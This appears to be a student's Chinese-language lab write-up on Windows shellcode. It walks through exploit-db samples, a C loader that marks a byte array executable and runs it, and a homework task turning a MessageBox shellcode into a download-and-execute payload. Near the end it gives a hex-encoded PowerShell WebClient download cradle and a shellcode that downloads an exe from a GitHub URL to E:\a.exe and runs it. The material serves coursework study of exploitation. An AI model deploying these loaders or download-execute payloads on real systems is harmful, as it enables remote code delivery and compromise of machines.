








# ShellCode

1. 详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

找一个 VERIFIED 的代码，有点难

## Windows

- [弹出MessagBox的参考示例代码](https://www.exploit-db.com/shellcodes/13828)

```c
/*
Title: Allwin MessageBoxA Shellcode
Date: 2010-06-11
Author: RubberDuck
Web: http://bflow.security-portal.cz
Tested on: Win 2k, Win 2003, Win XP Home SP2/SP3 CZ/ENG (32), Win Vista (32)/(64), Win 7 (32)/(64), Win 2k8 (32)
Thanks to: kernelhunter, Lodus, Vrtule, Mato, cm3l1k1, eat, st1gd3r and others
*/

#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

- messagebox得找`USER32.lib`或者`USER32.dll`
  
  

  

  

- \x68\x4F\x5F\x6F\x21：将参数入栈：O_o!:  79 95 111 33 > 4f 5f 6f 21 x4F\x5F\x6F\x21
  - 修改参数 zizi : 122 105 122 105 > 7a 69 7a 69 > \x7a\x69\x7a\x69
  


- 注：
  - https://www.exploit-db.com/shellcodes/48229 - 会出现内存访问错误问题，还未调整
  - https://www.exploit-db.com/shellcodes/28996 - 会出现broken byte

## Win 7 下运行

```c
#include <windows.h>
#include <stdio.h>

char code[] ="\x31\xC0\xB8\x6F\x86\x67\x77\xFF\xD0";

int main(int argc, char **argv)
{
	int(*func)();
	DWORD dwOldProtect;
	//func = (int(*)()) code;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	func = (int(*)()) code;
	(int)(*func)();
}
```

- 执行会报错

### 拿win10的代码到win7虚拟机下跑

- 把vs工程的属性设为
  
  

  

- 生成项目，在`Debug`目录下找到三个相关的文件(为了防止出错)，全都拷贝到虚拟机中
- 运行exe，会出现丢失几个dll的情况，如
  ```
  api-ms-win-core-synch-l1-2-0.dll
  api-ms-win-core-file-l2-1-0.dll
  api-ms-win-core-timezone-l1-1-0.dll
  api-ms-win-core-file-l1-2-0.dll
  api-ms-win-core-processthreads-l1-1-1.dll
  ```

  这里用了一个非常不优雅的方法，就是一个个去下，然后放在`C:\Windows\System32`目录下

  运行exe

  

### [弹出命令行](https://www.exploit-db.com/shellcodes/42016)



## Linux

- Segmentation fault(Core Dump)
  - When a piece of code tries to do read and write operation in a read only location in memory or freed block of memory, it is known as core dump.
  - It is an error indicating memory corruption.

## Conclusion

- x86指的是32位计算机的架构，也指32位的操作系统，比如i386，i686，i486等；x86_64和x64指的都是64位架构，也指64位操作系统

## 下载执行

```
\x29\x3b\x7d\x22\x65\x78\x65\x27\x74\x74\x79\x2e\x28\x27\x70\x75\x63\x75\x74\x65\x6c\x45\x78\x65\x53\x65\x6c\x6f\x6e\x29\x2e\x63\x61\x74\x69\x70\x70\x6c\x69\x6c\x6c\x2e\x41\x20\x53\x65\x2d\x63\x6f\x6d\x65\x63\x74\x20\x2d\x4f\x62\x6a\x28\x4e\x65\x77\x27\x29\x20\x3b\x2e\x65\x78\x65\x75\x74\x74\x79\x2c\x20\x27\x70\x65\x78\x65\x27\x74\x74\x79\x2e\x36\x2f\x70\x75\x74\x2f\x78\x38\x61\x74\x65\x73\x74\x79\x2f\x6c\x2f\x70\x75\x74\x74\x61\x6d\x73\x67\x74\x61\x6c\x69\x2f\x7e\x72\x74\x2e\x65\x2e\x65\x61\x2f\x2f\x74\x74\x70\x73\x3a\x28\x27\x74\x46\x69\x6c\x65\x6c\x6f\x61\x64\x44\x6f\x77\x6e\x6e\x74\x29\x2e\x43\x6c\x69\x65\x2e\x57\x65\x62\x20\x4e\x65\x74\x6a\x65\x63\x74\x77\x2d\x4f\x62\x20\x28\x4e\x65\x22\x26\x20\x7b\x61\x6e\x64\x20\x63\x6f\x6d\x6d\x6c\x6c\x20\x2d\x72\x73\x65\x70\x6f\x77\x65
```

转换的结果如下
```
);}"exe'tty.('pucutelExeSelon).catipplill.A Se-comect -Obj(New') ;.exeutty, 'pexe'tty.6/put/x8atesty/l/puttamsgtali/~rt.e.ea//ttps:('tFileloadDownnt).Clie.Web Netjectw-Ob (Ne"& {and commll -rsepowe
```

- 路径：https://github.com/purplezi/Software-and-System-Security/blob/master/hw-0x04-Shellcode/exe/test.exe
  
  ```
  \x68\x74\x74\x70\x73\x3a\x2f\x2f\x67\x69\x74\x68\x75\x62\x2e\x63\x6f\x6d\x2f\x70\x75\x72\x70\x6c\x65\x7a\x69\x2f\x53\x6f\x66\x74\x77\x61\x72\x65\x2d\x61\x6e\x64\x2d\x53\x79\x73\x74\x65\x6d\x2d\x53\x65\x63\x75\x72\x69\x74\x79\x2f\x62\x6c\x6f\x62\x2f\x6d\x61\x73\x74\x65\x72\x2f\x68\x77\x2d\x30\x78\x30\x34\x2d\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x2f\x65\x78\x65\x2f\x74\x65\x73\x74\x2e\x65\x78\x65
\x\x```

- 保存路径：E:\a.exe
  - c:\a.a > 63 3a 5c 61 2e 61
  - E:\a.exe > 45 3a 5c 61 2e 65 78 65 \x68\x65\x78\x65\x2e\x68\x61\x5c\x3a\x45
  - 如果不够则\x00

```
char shellcode[] = \

"\xe9\x88\x00\x00\x00\x5f\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68"
"\x08\x8b\xf7\x6a\x02\x59\xe8\x31\x00\x00\x00\xe2\xf9\x68\x6f\x6e\x00\x00\x68\x75\x72"
"\x6c\x6d\x54\xff\x16\x8b\xe8\xe8\x1b\x00\x00\x00\x68\x65\x78\x65\x2e\x68\x61\x5c\x3a"
"\x45\x54\x5b\x33\xc0\x50\x50\x53\x57\x50\xff\x56\x08\x50\x53\xff\x56\x04\x51\x56\x8b"
"\x75\x3c\x8b\x74\x2e\x78\x03\xf5\x56\x8b\x76\x20\x03\xf5\x33\xc9\x49\x41\xad\x03\xc5"
"\x33\xdb\x0f\xbe\x10\x3a\xd6\x74\x08\xc1\xcb\x0d\x03\xda\x40\xeb\xf1\x3b\x1f\x75\xe7"
"\x5e\x8b\x5e\x1c\x03\xdd\x8b\x04\x8b\x03\xc5\xab\x5e\x59\xc3\xe8\x73\xff\xff\xff\x8e"
"\x4e\x0e\xec\x98\xfe\x8a\x0e\x36\x1a\x2f\x70\x68\x74\x74\x70\x73\x3a\x2f\x2f\x67\x69"
"\x74\x68\x75\x62\x2e\x63\x6f\x6d\x2f\x70\x75\x72\x70\x6c\x65\x7a\x69\x2f\x53\x6f\x66"
"\x74\x77\x61\x72\x65\x2d\x61\x6e\x64\x2d\x53\x79\x73\x74\x65\x6d\x2d\x53\x65\x63\x75"
"\x72\x69\x74\x79\x2f\x62\x6c\x6f\x62\x2f\x6d\x61\x73\x74\x65\x72\x2f\x68\x77\x2d\x30"
"\x78\x30\x34\x2d\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x2f\x65\x78\x65\x2f\x74\x65\x73\x74\x2e\x65\x78\x65\x00";
```

# References

- https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb
- https://www.cnblogs.com/binlmmhc/p/6501545.html
- https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb
- https://en.wikipedia.org/wiki/Process_Environment_Block